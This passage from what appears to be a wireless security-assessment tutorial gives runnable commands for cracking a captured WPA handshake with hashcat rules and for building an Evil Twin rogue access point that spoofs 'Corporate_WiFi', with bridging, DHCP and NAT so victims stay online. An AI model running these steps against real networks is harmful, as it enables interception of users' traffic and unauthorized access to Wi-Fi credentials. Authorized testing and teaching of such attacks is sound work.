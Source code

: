 **Using Rules with Aircrack-ng:**
```bash
# Convert handshake to hashcat format
sudo aircrack-ng wpa_capture-01.cap -J hash_for_hashcat

# Crack with hashcat rules
hashcat -m 22000 hash_for_hashcat.hccapx wordlist.txt -r /usr/share/hashcat/rules/best64.rule
```

### Creating a Rogue Access Point

```bash
# Create a fake AP with the same ESSID
sudo airbase-ng -e "Corporate_WiFi" -c 6 wlan0mon

# More sophisticated Evil Twin with optional internet
sudo airbase-ng -e "Corporate_WiFi" -c 6 --essid-regex "Corp.*" wlan0mon
```

**Complete Evil Twin Attack Setup:**
```bash
# Create a fake AP
sudo airbase-ng -e "Corporate_WiFi" -c 6 wlan0mon

# Set up routing for internet access
sudo brctl addbr evil-twin
sudo brctl addif evil-twin at0
sudo ifconfig at0 192.168.0.1 up
sudo ifconfig evil-twin up

# Configure DHCP server
cat << EOF > /tmp/dhcpd.conf
option domain-name-servers 8.8.8.8;
default-lease-time 600;
max-lease-time 7200;
subnet 192.168.0.0 netmask 255.255.255.0 {
    option routers 192.168.0.1;
    option subnet-mask 255.255.255.0;
    range 192.168.0.2 192.168.0.254;
}
EOF

# Start DHCP server
sudo dhcpd -cf /tmp/dhcpd.conf at0

# Set up NAT for internet access
sudo iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```

## Advanced Tools Beyond Aircrack-ng

While Aircrack-ng provides essential functionality, specialized tools expand wireless assessment capabilities.
